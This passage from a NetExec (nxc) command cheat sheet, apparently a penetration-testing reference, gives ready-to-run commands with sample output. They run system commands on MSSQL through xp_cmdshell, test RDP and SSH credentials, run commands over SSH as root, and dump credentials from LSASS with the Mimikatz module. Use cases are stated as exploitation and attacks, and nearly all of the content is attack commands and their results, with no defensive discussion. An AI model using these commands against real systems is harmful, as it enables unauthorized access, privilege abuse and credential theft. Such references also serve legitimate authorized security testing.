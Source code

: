 **Command Execution**:
```bash
nxc mssql 192.168.1.126 -u 'sa' -p 'Password@123' --local-auth -x 'whoami'
```
**Explanation**:
- Executes a system command via `xp_cmdshell`.
- Example output:
  ```
  MSSQL       192.168.1.126 1433 SQL01 [+] sa:Password@123 (local auth)
  MSSQL       192.168.1.126 1433 SQL01 [*] whoami: nt authority\system
  ```

**Use Case**: Automates MSSQL reconnaissance and exploitation.

### 16. RDP Enumeration
**Purpose**: Check RDP service availability and credentials.

**Command**:
```bash
nxc rdp 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --check
```
**Explanation**:
- Verifies RDP access and credential validity.
- Example output:
  ```
  RDP         192.168.1.100 3389 DC01 [+] example.com\administrator:P@ssw0rd
  RDP         192.168.1.100 3389 DC01 [*] RDP enabled, authentication successful
  ```

**Use Case**: Identifies systems with RDP enabled for potential remote access.

### 17. SSH Enumeration and Command Execution
**Purpose**: Enumerate and interact with SSH services.

**Command**:
```bash
nxc ssh 192.168.1.200 -u 'root' -p 'toor' -x 'whoami'
```
**Explanation**:
- Tests SSH credentials and executes a command.
- Example output:
  ```
  SSH         192.168.1.200 22 SERVER [+] root:toor
  SSH         192.168.1.200 22 SERVER [*] whoami: root
  ```

**Use Case**: Automates SSH-based attacks on Linux/Unix systems.

### 18. Mimikatz Credential Dumping
**Purpose**: Extract credentials from memory using Mimikatz.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' -M mimikatz
```
**Explanation**:
- Runs Mimikatz to extract credentials from LSASS.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Mimikatz output: user1:Password123
  ```

